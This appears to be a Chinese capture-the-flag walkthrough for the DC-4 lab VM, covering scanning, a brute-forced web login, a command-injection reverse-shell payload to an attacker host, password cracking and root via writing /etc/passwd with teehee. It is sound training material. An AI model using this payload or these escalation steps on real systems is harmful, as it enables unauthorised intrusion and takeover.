## DC-4 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| DC-4          | `192.168.1.111` |

### 扫描端口和版本信息

`nmap -A 192.168.1.111`



### 访问Web并确定web应用

根据 Nmap 扫描结果可知，web 应用程序运行的是 HTTP 服务器



经过审计源码，特殊字符SQL注入测试后均无所获，那么就只有暴力破解了



暴力破解结果，得到账户和密码：`admin:happy`



使用账户和密码登录后，进入到命令执行页面，看样子可执行代码

要是这样的话，这题就简单了。通过查看`/etc/passwd` 文件可知系统存在三个用户：*charles*、*jim*、*sam*



### Getshell

修改发送请求中的请求体如下，同时在 Kali 上监听 **6677** 端口

`radio=/bin/bash -c 'bash -i >%26 /dev/tcp/192.168.1.112/6677 0>%261'&submit=Run`



将 Kali 中已下载好的 LinEnum.sh 脚本上传到 DC-4 虚拟机中，并运行脚本得到以下有用信息





结果显示 `/home/jim/`目录下的 `test.sh` 脚本具有 SUID 权限。此外在 `bakups`目录下存在旧密码的备份文件，并且 *jim* 和 *www-data* 账户都有一份邮件。但是查看 *www-data* 账户的邮件没什么有用信息，想读 `jim` 账户邮件也得知道 `jim` 账户的密码



既然已经知道账户名和密码本，那就试着进行密码爆破。并且给出了这个文件，必然有用处



果不其然，我们得到账户 *jim* 的密码：`jibril04`。 登录上去查看一下 *jim* 的邮件



### 提权

Good，邮件里给出了 *charles* 账户的密码：`^xHhA&hvim0y`



通过查看 `teehee `帮助文件，知道该命令的作用就是读写文本。看来我们可以以 *root* 权限任意写文件，那么我们通过修改 `/etc/passwd` 文件添加用户就可以获取 *root* 权限



